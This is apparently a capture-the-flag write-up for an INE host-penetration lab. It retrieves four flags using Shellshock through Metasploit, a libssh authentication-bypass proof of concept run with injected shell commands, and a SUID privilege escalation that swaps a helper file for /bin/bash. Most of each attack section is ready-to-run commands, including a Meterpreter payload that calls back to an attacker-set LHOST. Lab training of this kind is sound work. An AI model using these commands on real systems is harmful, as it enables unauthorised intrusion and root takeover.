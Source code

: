# Host & Network Penetration Testing: System-Host Based Attacks CTF 2


This lab demonstrates a chain of access using HTTP Shellshock on `target1.ine.local` and a libssh authentication bypass on `target2.ine.local`. The exercise covers discovery, exploitation with Metasploit and PoCs, limited post-exploitation enumeration, and privilege escalation via a SUID binary. Four flags were obtained during the lab; sensitive values have been redacted and replaced with placeholders.

---

## Flag 1 – Root directory file on target1 (Shellshock)  
**Hint:** *Check the root ('/') directory for a file that might hold the key to the first flag on target1.ine.local.*

### Discovery
A quick service scan revealed an HTTP server running Apache:

```bash
nmap -sV -sC target1.ine.local
```

The webroot redirects to `/browser.cgi`. The site source contains a redirect to the CGI script:
```html
<meta http-equiv="refresh" content="0; url=./browser.cgi">
```

Running an NSE check for Shellshock showed the target is vulnerable:

```bash
nmap -sV target1.ine.local --script=http-shellshock --script-args "http-shellshock.uri=/browser.cgi"
```
`http-shellshock` reported the server as **VULNERABLE** (CVE-2014-6271).

### Exploitation
A Metasploit module for Apache mod_cgi Shellshock was used to stage a payload:

```msf
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS target1.ine.local
set TARGETURI /browser.cgi
set LHOST <your-IP>
set LPORT 4444
run
```

The module successfully delivered a payload and opened a Meterpreter session.

### Post-exploitation
From the Meterpreter session:
```msf
meterpreter > cd /
meterpreter > ls
# locate flag.txt in the filesystem root
meterpreter > cat flag.txt
```

---

## Flag 2 – Hidden file in web document root on target1  
**Hint:** *In the server's root directory, there might be something hidden. Explore `/opt/apache/htdocs/` carefully to find the next flag on target1.ine.local.*

### Enumeration
Using the Meterpreter session, the web document path was inspected:

```msf
meterpreter > cd /opt/apache/htdocs/
meterpreter > ls
meterpreter > cat .flag.txt
```

---

## Flag 3 – User home flag on target2 (libssh PoC)  
**Hint:** *Investigate the user's home directory and consider using `libssh_auth_bypass` to uncover the flag on target2.ine.local.*

### Discovery
`target2.ine.local` was scanned and showed an SSH server using libssh 0.8.3:

```bash
nmap -sV -sC target2.ine.local
# -> ssh libssh 0.8.3
```

`searchsploit` returned public proofs-of-concept for libssh authentication bypass:

```
linux/remote/45638.py
linux/remote/46307.py
```

### Exploitation (PoC)
A local PoC was used to execute commands without authentication:

```bash
python3 /usr/share/exploitdb/exploits/linux/remote/46307.py target2.ine.local 22 "cd home; cd user; ls"
python3 /usr/share/exploitdb/exploits/linux/remote/46307.py target2.ine.local 22 "cd home; cd user; cat flag.txt"
```

### Alternative via Metasploit
Metasploit includes an auxiliary module for the same bypass:

```msf
use auxiliary/scanner/ssh/libssh_auth_bypass
set RHOSTS target2.ine.local
set SPAWN_PTY true
set ACTION Shell
run
# sessions -> interact with shell
```

This produced a shell for interactive enumeration when `SPAWN_PTY` was enabled.

---

## Flag 4 – Privilege escalation via SUID binary on target2  
**Hint:** *The most restricted areas often hold the most valuable secrets. Look into the '/root' directory to find the hidden flag on target2.ine.local.*

### Enumeration and escalation
From the shell on `target2.ine.local` the user home contained a SUID binary `welcome`:

```sh
ls -al
-rwx------ 1 root root 8296 Jun 11  2024 greetings
-rwsr-xr-x 1 root root 8344 Jun 11  2024 welcome
```

Because `welcome` is a setuid root binary and the binary contains calls that can be abused:
- Replace or leverage an executable accessible to the running user (copying `/bin/bash` into a filename expected or invoked by the SUID binary), or
- Use the binary’s behavior to spawn a root shell.

In the lab, the following sequence was used (actions performed on the target under lab conditions):

```sh
# remove a user-owned helper, copy /bin/bash to a helper filename, then run the SUID binary
rm greetings
cp /bin/bash greetings
./welcome
cd /root
cat flag.txt
```

---

## Summary (plain text — no table)

1. **Flag 1 — HTTP Shellshock (Meterpreter):** Shellshock against `/browser.cgi` allowed command execution and retrieval of a file in `/` containing the first flag.  
2. **Flag 2 — Web document root file:** Using the Meterpreter session the hidden file `/opt/apache/htdocs/.flag.txt` was read and yielded the second flag.  
3. **Flag 3 — libssh auth bypass (PoC / Metasploit):** A libssh authentication bypass allowed execution as an unprivileged user and retrieval of `~/user/flag.txt`.  
4. **Flag 4 — SUID privilege escalation:** A setuid root binary in the user's home was abused to escalate to root and read `/root/flag.txt`.

---

## Tools used

- **nmap** – discovery and NSE scripts (`http-shellshock`)  
- **Metasploit Framework** – `exploit/multi/http/apache_mod_cgi_bash_env_exec`, `auxiliary/scanner/ssh/libssh_auth_bypass` and Meterpreter sessions  
- **searchsploit / exploit-db PoC** – libssh PoC (`46307.py`)  
- **python3** – run PoC scripts  
- **strings, file, ls, find** – local enumeration during post-exploitation

---

